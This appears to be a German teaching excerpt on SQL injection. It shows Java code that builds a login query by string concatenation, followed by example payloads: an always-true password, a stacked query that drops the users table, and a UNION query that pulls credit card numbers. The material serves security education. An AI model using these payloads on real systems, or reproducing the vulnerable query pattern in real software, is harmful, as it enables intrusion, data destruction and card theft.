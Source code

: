 ``` Java
query = "select * from users ";
query = query + "where username = '" +username + "'";
query = query + " and password = '" +password +"' limit 1;
```

## Simples Beispiel

Angreifer wählt Passwort:

```
1’ or ‘1’=’1
```

Ergebnis:

``` SQL
select * from users 
where username = ‘ah‘ and password = ‘1’ or ‘1’ = ‘1’ limit 1;
```

## Stacked Queries

``` SQL

# URL
http://snikt.net/test.php?id=1

# Operation:
select * from articles where id=1

# Eingabe
1; drop table users; --

# Ergebnis
select * from articles where id=1;drop table users;--
```

## Union-Based SQLi

* Weboberfläche
* https://snikt.net/addressbook_search?user_id=1
* Ergebnis wird in einer Tabelle angezeigt

```
# Datenquelle:
select Name, Phone, Address FROM users where user_id=1
```

## Union-Based-SQL Kommando

* Folgende Eingabe fuer id:

```
  1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```
